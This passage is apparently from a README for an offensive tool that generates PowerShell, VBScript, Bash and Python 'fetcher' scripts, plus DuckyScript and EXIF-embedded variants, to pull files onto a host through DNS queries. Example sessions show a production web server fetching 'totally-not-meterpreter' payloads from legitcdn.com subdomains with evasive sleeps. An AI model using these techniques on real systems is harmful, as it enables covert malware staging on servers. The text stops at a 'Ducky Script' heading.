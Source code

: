 File fetchers are generated for each file:

  - PowerShell fetcher script
  - VBScript (use cscript.exe) fetcher script using cmd/nslookup
  - Bash fetcher scriptusing host or dig
  - Python3 fetcher script using python-dns

Fetcher facilitators:

  - DuckyScript versions for all of the above fetchers
  - Generated images with the EXIF tag "Comment" filled in with the individual payloads for all fetchers

Clicking on the Fully Qualified Domain Name link will return the total list of DNS requests that are required for retrieving the file.

### Examples

#### Linux/UNIX file fetching using `bash` and `host` or `dig`
```
webapp@production-server:/tmp$ cat > get.sh
^D
webapp@production-server:/tmp$ bash get.sh
Retrieving totally-not-meterpreter.gpg using "host" command...
> Requesting 333.crcz.x.legitcdn.com (1/4)...
Sleeping 5 seconds...
> Requesting 333.hw1.x.legitcdn.com (2/4)...
Sleeping 1 seconds...
> Requesting 333.remedy.x.legitcdn.com (3/4)...
Sleeping 3 seconds...
> Requesting 333.guangzhou2.x.legitcdn.com (4/4)...
Done.
webapp-123@production-server:/tmp$ ls
totally-not-meterpreter.gpg
```

#### Windows VBScript execution of fetcher script using `cscript`
```
C:\webapp\files\users\public_upload> cscript get-333.x.legitcdn.com.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

Retrieving file totally-not-meterpreter.7z...
> Requesting 333.crcz.x.legitcdn.com (1/4)...
Sleeping for 4...
> Requesting 333.hw1.x.legitcdn.com (2/4)...
Sleeping for 3...
> Requesting 333.remedy.x.legitcdn.com (3/4)...
Sleeping for 3...
> Requesting 333.guangzhou2.x.legitcdn.com (4/4)...
Waiting for DNS responses to finish...
Converting...
Done.

C:\webapp\files\users\public_upload> dir
totally-not-meterpreter.7z
```
#### Ducky Script
